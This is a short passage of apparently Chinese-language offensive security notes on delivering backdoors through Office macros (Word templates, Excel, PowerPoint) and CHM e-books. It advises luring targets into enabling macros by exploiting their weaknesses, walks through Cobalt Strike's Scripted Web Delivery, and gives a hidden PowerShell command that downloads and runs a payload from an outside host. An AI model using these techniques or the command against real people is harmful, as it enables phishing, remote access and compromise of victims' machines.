 5、运行上线

97-2003 的版本直接运行上线，新版本则需要用户手动开启宏

**另外**：**word 的模版**模式也可以操作宏后门，我们可以制作word模版插入宏后门，下载网上公开模版再插入我们的宏，诱导目标访问。一般模版后缀名为`dot`或者`dotm`

**关键**：还是在于怎么诱惑目标为了看我们的文件而开启宏，这个就是得找到目标的**软肋**啊

### Excel&PPT

与 word 操作类似

`docx-doc&docm`

`xlsx-xls&xlsm`

`pptx-ppt&pptm`

老版本：97-2003 0ffice默认是支持宏代码运行

新版本：启动宏的格式，一般就是在后缀加上M

### CHM电子书

#### 执行JS

CS生成上线：Attacks——>Web Drive by——>Scripted web Delivery 

作用是 teamserve 开启一个端口保存后门，利用一些远程下载命令下载执行后门

<img src=".\图片\Snipaste_2023-01-02_19-51-43.png" alt="Snipaste_2023-01-02_19-51-43" style="zoom:80%;" />

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.103:84/a'))"
```
